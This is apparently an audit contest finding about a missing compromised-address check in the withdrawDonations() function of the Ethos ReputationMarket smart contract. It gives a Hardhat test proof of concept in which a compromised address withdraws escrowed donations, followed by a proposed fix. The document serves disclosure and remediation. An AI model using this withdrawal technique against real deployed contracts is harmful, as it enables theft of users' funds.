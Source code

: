 Overt Alabaster Cottonmouth

High

# Missing check in `withdrawDonations()` allows compromised/deleted address to steal all donation

## Description
The [withdrawDonations()](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L570-L574) function makes no check if the calling address has been marked compromised (or deleted from the profile) or not:
```js
  File: ethos/packages/contracts/contracts/ReputationMarket.sol

   570:            function withdrawDonations() public whenNotPaused returns (uint256) {
   571:@--->         uint256 amount = donationEscrow[msg.sender];
   572:              if (amount == 0) {
   573:                revert InsufficientFunds();
   574:              }
   575:          
   576:              // Reset escrow balance before transfer to prevent reentrancy
   577:              donationEscrow[msg.sender] = 0;
   578:          
   579:              // Transfer the funds
   580:              (bool success, ) = msg.sender.call{ value: amount }("");
   581:              if (!success) revert FeeTransferFailed("Donation withdrawal failed");
   582:          
   583:              emit DonationWithdrawn(msg.sender, amount);
   584:              return amount;
   585:            }
```

This leads to the following vulnerability:
1. Alice creates a profile and sets `donationRecipient[profileId]` to address A1. All donations are now updated in `donationEscrow[A1]`.
2. A1 gets compromised and Alice marks it as compromised using her other address A2. (Alternatively, A1 is deleted by Alice and A1 gets assigned to some other profile id).
3. The attacker who compromised A1 can still call `withdrawDonations()`.
4. Note that Alice can't use A2 to call `updateDonationRecipient()` and change the recipient or pull out the donated funds since it can only be called by the current recipient which is A1.
4. A1 calls `withdrawDonations()` and the funds get sent to them.
5. Alice has no recourse to block the attacker's actions or recover her funds.

## Impact
A couple of them:
1. A compromised/deleted address is able to steal the funds via `withdrawDonations()`.
2. Even if a check is introduced to block such addresses from receiving funds, there exists no way to rescue these funds or set a new recipient.

## Proof of Concept
Add this test file as `ethos/packages/contracts/test/reputationMarket/rep.compromised.test.ts` and see it pass when run via `npm run hardhat -- test --grep "Compromised address vulnerability"`:
```js
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect } from 'chai';
import hre from 'hardhat';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { DEFAULT, MarketUser } from './utils.js';
import { common } from '../utils/common.js';

const { ethers } = hre;

describe('ReputationMarket Security', () => {
    let deployer: EthosDeployer;
    let ethosUserA: EthosUser;
    let ethosUserB: EthosUser;
    let newWallet: ethers.Wallet; 
    let userA: MarketUser;
    let reputationMarket: ReputationMarket;

    beforeEach(async () => {
        deployer = await loadFixture(createDeployer);

        if (!deployer.reputationMarket.contract) {
            throw new Error('ReputationMarket contract not found');
        }
        ethosUserA = await deployer.createUser();
        await ethosUserA.setBalance('2000');
        ethosUserB = await deployer.createUser();
        await ethosUserB.setBalance('2000');

        // Create a new wallet for the compromise scenario
        newWallet = ethers.Wallet.createRandom().connect(ethers.provider);
        // Fund the new wallet with enough ETH for gas
        await ethosUserA.signer.sendTransaction({
            to: newWallet.address,
            value: ethers.parseEther('1.0')
        });

        userA = new MarketUser(ethosUserA.signer);
        reputationMarket = deployer.reputationMarket.contract;
        DEFAULT.reputationMarket = reputationMarket;
        DEFAULT.profileId = ethosUserA.profileId;
    });

    describe('Compromised address vulnerability', () => {
        it('incorrectly allows a compromised address to withdraw donations', async () => {
            // Setup market and fees
            await reputationMarket
                .connect(deployer.ADMIN)
                .setUserAllowedToCreateMarket(DEFAULT.profileId, true);

            await reputationMarket
                .connect(deployer.ADMIN)
                .setProtocolFeeAddress(deployer.FEE_PROTOCOL_ACC.address);
                
            await reputationMarket
                .connect(deployer.ADMIN)
                .setEntryProtocolFeeBasisPoints(100); // 1%
            await reputationMarket
                .connect(deployer.ADMIN)
                .setDonationBasisPoints(200); // 2%

            // Create market
            await reputationMarket.connect(userA.signer).createMarket({ 
                value: ethers.parseEther('0.02') 
            });

            // Generate donations through vote purchases
            const buyAmount = ethers.parseEther('10.0');
            await reputationMarket.connect(ethosUserB.signer).buyVotes(
                DEFAULT.profileId,
                true, // trust votes
                1n,   // expectedVotes
                100,  // 1% slippage
                { value: buyAmount }
            );

            // Record initial balances and donations
            const balanceBefore = await ethers.provider.getBalance(ethosUserA.signer.address);
            const donationEscrow = await reputationMarket.donationEscrow(ethosUserA.signer.address);
            expect(donationEscrow).to.be.gt(0, "Should have donations to withdraw");

            // First register newWallet's address 
            const randValue = BigInt('29548234957');
            const signature = await common.signatureForRegisterAddress(
                newWallet.address,
                DEFAULT.profileId.toString(),
                randValue.toString(),
                deployer.EXPECTED_SIGNER
            );

            await deployer.ethosProfile.contract.connect(ethosUserA.signer)
                .registerAddress(
                    newWallet.address, 
                    DEFAULT.profileId, 
                    randValue, 
                    signature
                );

            // Now use new wallet to mark original address as compromised
            await deployer.ethosProfile.contract
                .connect(newWallet)
                .deleteAddress(ethosUserA.signer.address, true); // <------- Alternatively, can pass `false` as last param if only want to delete, without marking as compromised

            // Verify address is marked as compromised
            expect(await deployer.ethosProfile.contract.isAddressCompromised(ethosUserA.signer.address)).to.be.true; // <------- comment this if not marked as compromised in the step above

            // Despite being compromised/deleted, withdraw donations
            await reputationMarket.connect(ethosUserA.signer).withdrawDonations();

            // Verify funds were received by compromised address
            const balanceAfter = await ethers.provider.getBalance(ethosUserA.signer.address);
            expect(balanceAfter).to.be.closeTo(
                balanceBefore + donationEscrow,
                ethers.parseEther('0.001') // Allow for gas costs
            );

            // Verify donations were cleared
            expect(await reputationMarket.donationEscrow(ethosUserA.signer.address))
                .to.equal(0);
        });
    });
});
```

## Mitigation 
1. Add the check to revert if a compromised/deleted address attempts to call `withdrawDonations()`. Note that we need not bother about `updateDonationRecipient()` since even if it is called by A1, it can only set the new recipient to some address belonging to the existing profile:
```diff
-  570:            function withdrawDonations() public whenNotPaused returns (uint256) {
+  570:            function withdrawDonations(uint256 profileId) public whenNotPaused returns (uint256) {
+  571:              uint256 callerProfileId = _getProfileIdForAddress(msg.sender);
+  571:              if (msg.sender != donationRecipient[profileId] || callerProfileId != profileId) revert InvalidProfileId();
   571:              uint256 amount = donationEscrow[msg.sender];
   572:              if (amount == 0) {
   573:                revert InsufficientFunds();
   574:              }
   575:          
   576:              // Reset escrow balance before transfer to prevent reentrancy
   577:              donationEscrow[msg.sender] = 0;
   578:          
   579:              // Transfer the funds
   580:              (bool success, ) = msg.sender.call{ value: amount }("");
   581:              if (!success) revert FeeTransferFailed("Donation withdrawal failed");
   582:          
   583:              emit DonationWithdrawn(msg.sender, amount);
   584:              return amount;
   585:            }
```

2. The second fix is more of a design decision which the protocol can take. There should be a way to recover the donation. Either a new convenience function `reassignDonationRecipient()` can be added which looks something like this:
```js
function reassignDonationRecipient(
    uint256 profileId, 
    address newRecipient,
    bytes calldata signature  // Signed proof of new address ownership
) external {
```
Or the admin could float a proposal which allows them to rescue funds from such markets, and introduce a new function for the same.